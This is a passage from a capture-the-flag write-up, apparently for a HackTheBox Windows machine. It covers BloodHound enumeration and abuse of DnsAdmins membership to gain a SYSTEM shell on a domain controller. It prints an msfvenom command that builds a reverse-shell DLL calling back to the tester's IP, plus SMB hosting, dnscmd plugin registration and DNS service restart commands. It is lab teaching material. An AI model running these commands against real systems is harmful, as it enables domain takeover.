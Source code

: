 Now type simple bloodhound in new terminal and press enter to start the bloodhound. If you are running bloodhound for the first time you need to reset the default credentials of bloodhound which is `neo4j:neo4j`. After logging into the bloodhound upload the zip file we create by **bloodhound-python**. You can use both methods, either drag and drop the file into bloodhound or by using upload data button and wait for data to upload into the database. 

<img alt="Pasted image 20240127043922" src="https://github.com/user-attachments/assets/e75c5b6e-06bf-468d-9ca0-d0f206ec5228">

After data upload process search for user, **Ryan** and **melanie** in search bar and mark them both as a owned user's.

<img  alt="Pasted image 20240729054548" src="https://github.com/user-attachments/assets/58313f32-7d40-418c-ba44-ed6cf94a3ac5">

After i checked t the properties of Ryan user, and he was a member of **Contractor** Group and **Contractor** Group was a member of **DnsAdmins** group.

<img alt="Pasted image 20240729044602" src="https://github.com/user-attachments/assets/fec6a50b-a2f4-4b47-ada5-c143cb9f426a">

## Exploitation

#### DnsAdmins

Users who are members of the group 'DnsAdmins' have the ability to abuse a feature in the Microsoft DNS management protocol to make the DNS server load any specified DLL. The service which in turn, executes the DLL is performed in the context of SYSTEM and could be used on a Domain Controller (Where DNS is usually running from) to gain Domain Administrator privileges.
[Refrence](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/privilege-escalation/dnsadmin)

First we need to create an malicious **.dll** file using **msfvenom** and then host it on SMB server. I tired to upload it on the box, but some kind of defense mechanism blocking it.

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f dll > exploit.dll

$ smbserver.py -smb2support share ./
```

<img alt="Pasted image 20240729045502" src="https://github.com/user-attachments/assets/4de6ed1f-4d00-4ef3-8baa-a62f20557c18">

Once SMB server is up and running, the following command can be used to register the DLL. Start a netcat listener on you machine and use **net** command to restart the dns service.

```bash
$ cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.16.8\share\exploit.dll

$ net stop dns /y
$ net start dns /y
```

<img  alt="Pasted image 20240729050026" src="https://github.com/user-attachments/assets/248519bd-c87b-47a3-9e87-7a4db6e311b4">

Once the DNS service restart, we can see we got shell as **nt authority\system**

<img alt="Pasted image 20240729050054" src="https://github.com/user-attachments/assets/8731dc29-64aa-4647-bd5c-467534425e01">

# Flags

User : d9bce784c335e......9aefe6a0a8173

Root : 4d82dbba1325.......071f17898d8cff

# Happy Hacking ❤

